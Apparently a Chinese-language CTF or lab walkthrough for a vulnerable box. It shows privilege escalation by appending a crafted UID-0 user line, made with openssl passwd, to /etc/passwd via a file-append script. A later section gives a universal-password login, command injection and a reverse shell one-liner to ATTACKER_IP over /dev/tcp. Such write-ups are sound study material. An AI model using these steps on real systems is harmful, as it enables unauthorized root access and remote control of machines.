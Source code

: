 ![image.png](https://s2.loli.net/2025/04/15/TkomjaJQUPbyezR.png)

test疑似是个程序还是别的 在devstuff中有个python文件

```
#!/usr/bin/python 
import sys 
if len (sys.argv) != 3 :
	print ("Usage: python test.py read append") 
	sys.exit (1) 
else : 
	f = open(sys.argv[1], "r") 
	output = (f.read()) 
	f = open(sys.argv[2], "a") 
	f.write(output) f.close()
```

1. ​**​操作流程​**​
    
    - ​**​读取输入文件​**​：打开第一个参数指定的文件（`sys.argv[1]`），读取全部内容

    - ​**​追加写入输出文件​**​：将读取的内容追加到第二个参数指定的文件（`sys.argv[2]`）末尾
        
好东西啊 其实 将第一个文件的东西追加到第二个文件

就可以添加用户到/etc/passwd中啊

openssl用法

```
openssl passwd -1 -salt admin 123456
```

构造admin用户密码为123456的hash

```
/etc/passwd格式
admin:$1$ccc$tK1vhSYd21dUn8Z0EC/Pl0:0:0:root:/root:/bin/bash
```

执行代码之后 记得切换用户 就能提权了

![image.png](https://s2.loli.net/2025/04/15/INwdafuhzqKTZPM.png)


#### ​**​代码执行示例​**

# kio2思路
## nmap扫描端口
发现有一个登录界面 用万能密码成功登录

## 命令注入？
登录进去是个命令注入界面

用了bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 来反弹shell
